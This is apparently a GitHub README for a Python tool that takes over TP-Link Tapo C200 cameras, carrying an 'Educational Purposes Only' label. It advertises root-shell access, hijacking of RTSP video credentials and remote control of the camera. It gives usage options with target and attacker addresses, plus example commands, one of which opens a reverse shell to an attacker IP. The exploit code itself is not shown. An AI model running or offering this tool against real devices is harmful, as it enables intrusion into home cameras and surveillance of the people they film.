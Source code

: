 # Tapo-C200-Control

### Educational Purposes Only

Python script to pwn the TL-Link Tapo c200 camera and get full access.

## Features

* Root shell access
* Changing RTSP video stream credentials
* Controlling the movement
* Enabling/Disabling privacy mode
* Saving and restoring presets
* Resetting position
* Rebooting 

## Usage

```
Tp-Link Tapo C200 Universal Control Script

options:
  -h, --help            show help message

Required Arguments:
  -t, --target
        Tapo C200 IP address
  -a, --attacker
        Your IP address
  -m, --mode {shell,rtsp,control}
        Operation mode:
            - shell    Get a reverse shell
            - rtsp     Change RTSP credentials
            - control  Control camera

Optional Arguments:
  -p, --revshell-port
        Port to listen for reverse shell on
  -v, --verbose         Enable debugging
```

## Screenshots

### Usage

![Usage](./images/usage.png)

### Shell

![Shell](./images/shell.png)

### Rtsp

![Rtsp](./images/rtsp.png)

### Control

![Control](./images/control.png)

## Examples

```bash
python3 tapocontrol.py -t 192.168.191.1 \
                       -a 192.168.191.101 \
                       -m shell \
                       -p 12345
```

```bash
python3 tapocontrol.py -t 192.168.191.1 \
                       -a 192.168.191.101 \
                       -m control \
                       -v
```
